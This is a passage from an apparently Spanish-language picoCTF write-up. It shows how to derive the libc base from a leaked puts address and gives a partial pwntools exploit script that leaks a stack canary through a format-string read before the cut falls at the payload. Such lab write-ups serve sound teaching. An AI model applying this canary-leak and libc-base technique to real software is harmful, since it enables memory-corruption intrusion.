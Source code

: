 Entonces si le quitamos el offset de puts a la dirección de puts que filtramos tendremos la dirección base de la libc.

Podríamos también decirle a pwntools que nos saque el offset de la siguiente manera:

```c
libc.address = puts_addr - libc.symbols['puts']
```

Aquí si pwntools no sabe cual es la dirección de la libc nos saca el offset y una vez lo sepa nos saca la dirección real.

Ahora que ya tenemos la base del binario y la libc que hay en remoto ya podemos llamar a lo que queramos así que podemos pasar a hacer el script completo:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln")
libc = ELF("./libc6-i386_2.27-3ubuntu1.6_amd64.so")

context.binary = exe
context.terminal = ['kitty']

gdb_script = '''
b main
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("jupiter.challenges.picoctf.org", 18263)

offset_canary = 512

def main():
    io = conn()
    io.recvlines(4)

    # Bruteforce original para encontrar el número correcto:
    # for i in range(-4097, 4097):
    #     io.sendline(str(i))
    #     response = io.recvline()
    #     io.recvlines(2)
    #     if b"Congrats" in response:
    #         print(f"Correcto: {i}")
    #         break

    i = -3727
    io.sendline(str(i))
    io.sendlineafter(b'Name?', b'%135$p')
    canary = int(io.recvline().decode().strip().split(": ")[1], 16)
    log.success(f'Canary: {hex(canary)}')

    io.recvlines(2)
    io.sendline(str(i))
    io.recvlines(2)

    payload = (
```